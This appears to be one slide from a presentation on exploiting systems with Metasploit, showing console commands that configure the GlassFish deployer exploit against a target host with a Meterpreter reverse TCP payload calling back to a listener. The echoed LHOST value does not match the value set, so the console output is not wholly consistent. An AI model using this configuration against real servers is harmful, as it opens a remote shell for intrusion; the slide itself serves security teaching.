

# Basic Theory of Exploiting a System with Metasploit
21
4.  Payload Configuration

msf exploit(glassfish_deployer) > set LHOST 10.0.0.2
LHOST => 192.168.0.99
msf exploit(glassfish_deployer) > show options

Module options (exploit/multi/http/glassfish_deployer):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   APP_RPORT  8080             yes       The Application interface port
   PASSWORD                    no        The password for the specified username
   PATH       /                yes       The URI path of the GlassFish Server
   RHOST      10.0.0.1         yes       The target address
   RPORT      4848             yes       The target port
   USERNAME   admin            no        The username to authenticate as

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   LHOST     10.0.0.2         yes       The listen address
   LPORT     4444             yes       The listen port